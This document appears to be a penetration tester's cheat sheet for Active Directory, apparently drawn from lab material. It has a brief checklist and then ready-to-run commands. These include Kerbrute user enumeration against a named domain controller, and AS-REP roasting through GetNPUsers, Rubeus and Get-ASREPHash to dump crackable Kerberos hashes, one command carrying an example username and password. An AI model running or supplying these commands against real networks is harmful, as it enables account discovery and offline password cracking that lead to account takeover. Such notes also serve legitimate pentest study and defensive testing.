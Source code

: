 <hr>
<b>Enumeration checklist</b>
<hr>
<ul>
<li>Password Policy readable</li>
<li>Kebrute-able</li>
</ul>

Account Takeover Checklist

<ul>
<li>Vulnerable to ASREP-Roasting</li>
</ul>

<hr>
<b>Cheatsheet</b>
<hr>

<b>Enumeration</b>

<b>Kebrute-ing users</b>

Kerbrute uses pre-authentication to check if a given list of users is valid on the system.

<ol>
  <li>./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results</li>
</ol>

  
Account takeover techniques


<b>ASREP-Roasting:</b>

Exploit technqiues:
<ol>
<li>python GetNPUsers.py CHANGEME.LOCAL/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast</li>
<li>python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast</li>
<li>.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]</li>
<li>Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)</li>
</ol>

